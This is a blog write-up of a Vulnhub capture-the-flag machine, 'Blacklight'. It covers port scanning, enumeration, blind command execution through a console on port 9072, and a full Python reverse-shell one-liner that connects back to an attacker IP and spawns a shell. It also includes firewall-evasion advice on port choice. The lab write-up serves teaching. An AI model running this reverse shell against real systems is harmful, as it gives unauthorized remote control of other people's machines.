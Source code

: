 ```yaml
---
layout: post
title:	"Blacklight Writeup"
date:	2018-07-22 03:00:00
categories:
    - writeups
tags:
    - ctf
    - boot2root
    - vulnhub
---
```

<title> Blacklight Writeup </title>
![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/logo.png)

## i. Port Scan

Full TCP port scan using unicornscan:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/port.png)

~~~
$ unicornscan -Iv -r 160 -mT IP:a

-Iv = Immediately display results as they are found (-v = verbose)
-r = rate of packets to send per second
-mT = mode TCP
IP = host's ip
a = all (Scan 65535 ports)
~~~

`Ports 80 and 9072 are open`

## ii. Enumeration

Starting with port 80, we browse to the host.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/http.png)

We got a hint, `The web is the way`.

Running a directory search to see if we can find any hidden files or directories:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/dirsearch.png)

`robots.txt` seems to stand out.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/robots.png)

Inside, we find flag1.txt and what seems to be a dictionary file.

Navigating to flag1.txt:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/flag1.png)

Perfect, flag #1 captured.

The next hint is:
~~~
9072. The secret is at home.
~~~

Could this be referring to port 9072 that we found open in the port scan?

Connecting to port 9072 using netcat:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/console.png)

It seems that we are able to execute a few commands.

Running .readhash:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/hash.png)

Could this hash be related to the wordlist we found earlier?

Attempting to crack the hash using hashcat with the blacklight dictionary:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/cracker.png)

Looks like the hash can't be cracked... let's move on to the next command in the console.

.exec seems like it allows us to execute commands. Let's try a basic command to see if it is executed.

`Note: Once you issue two commands to the server (including .readhash), port 9072 will close and you will have to restart the virtual machine.`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Seems like the command is not executed, (or maybe it is?), but we cannot see the output.

To test our theory for blind command execution, we can host a web server and execute wget in the console to see if any connections are made:

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/exec.png)

Perfect, it looks like the box is making a connection to our host.

Which means that the box is executing commands, but we don't see the output (therefore it is called blind).

## iii. Reverse Shell

Since we know that the box is able to execute commands, let's try a reverse shell.

Python One Liner:
~~~
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

source: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
~~~

Make sure to update the command with your IP Address & Listening Port.

Using Port 443 is more reliable, just in case the host has some sort of firewall setup that is blocking outbound connections on unknown ports.

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart1.png)

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/revshellpart2.png)

After executing the command, we got a reverse shell.

We are able to use this python one-liner to spawn a TTY shell.

~~~
python -c 'import pty;pty.spawn("/bin/bash")'
~~~

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/pty.png)

`Looks like we are root already!`

![Screenshot]({{ site.baseurl }}/images/posts/2017/blacklight/root.png)

# IV. Conclusion

Blacklight was fun & easy. The hash rabbit hole drove me crazy for a few hours, while I tried cracking with wordlists such as rockyou, or trying to use the blacklight wordlist with rules.

Apart from that, I felt that the privilege escalation was a little incomplete, as we were elevated to root immediately.

Apart from that, I enjoyed the box.

Find the box on Vulnhub: https://www.vulnhub.com/entry/blacklight-1,242/

















~~~ 

Sources/Links:
~~~
[0]: http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
[1]: https://www.vulnhub.com/entry/blacklight-1,242/
~~~


